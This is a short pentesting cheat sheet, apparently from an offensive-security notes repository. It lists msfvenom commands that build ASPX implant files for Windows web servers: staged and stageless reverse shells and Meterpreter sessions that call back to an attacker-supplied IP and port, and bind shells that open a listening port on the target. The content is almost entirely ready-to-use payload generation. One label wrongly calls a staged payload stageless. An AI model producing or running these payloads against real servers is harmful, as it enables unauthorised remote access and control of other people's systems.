 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - windows
  - metasploit-framework
---
```

# ASPX

## Reverse Shells

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x86-64.aspx
```

Staged x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x64.aspx
```

Staged x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x64.aspx
```

Stageless x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o implant-x64.aspx
```

## Bind Shells

Staged x86 (32-bit) bind shell.

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o implant-x64.aspx
```

Staged x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o implant-x86.aspx
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o implant-x64.aspx
```

Stageless x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o implant-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o implant-x64.aspx
```